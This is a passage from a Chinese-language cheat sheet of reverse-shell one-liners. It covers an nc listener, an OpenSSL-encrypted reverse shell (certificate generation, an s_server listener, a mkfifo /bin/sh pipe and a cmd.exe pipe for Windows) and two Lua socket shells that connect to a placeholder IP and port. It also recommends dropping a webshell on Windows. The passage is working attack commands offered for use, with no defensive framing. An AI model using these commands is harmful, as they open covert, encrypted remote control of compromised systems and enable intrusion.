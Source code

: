 ```undefined
nc -lvp 8888
```

## openssl（加密反弹shell）

在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。不加密就跟裸奔一样。

1. 首先生成自签名证书，输入的时候默认回车即可：

   ```
   openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
   ```

   -newkey rsa:2048选项声明了使用RAS算法生成2048位的私钥。
   -nodes选项表明我们不使用密码加密私钥。
   -keyout key.key:生成私钥
   -out cert.pem：生成pem证书

2. 服务端监听8888端口：

   ```
   openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
   ```

3. Linux下使用mkfifo进行反弹shell(使用openssl单向认证)：

   ```
   mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect [host]:[port]> /tmp/s; rm /tmp/s
   ```

openssl单/双向认证参考：https://blog.csdn.net/go_home_look/article/details/107238103

windows不推荐使用此方法，建议直接写webshell。当然Windows下也是可以的，这里做个参考：

1. 服务端开启两个监听，从 ip:port1 获取命令发送给 cmd.exe执行，然后结果返回到 ip:port2。

   ```
   openssl s_server -quiet -key key.pem -cert cert.pem -port [port1]
   openssl s_server -quiet -key key.pem -cert cert.pem -port [port2]
   ```

2. 客户端执行

   ```
   openssl s_client -quiet -connect [host]:[port1] | cmd.exe | openssl s_client -quiet -connect [host]:[port2]
   ```

3. 在服务端的[port1]的窗口发送命令,然后服务端[port2]的窗口会收到执行结果

## lua

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('ip','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

```lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('ip',port);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
```
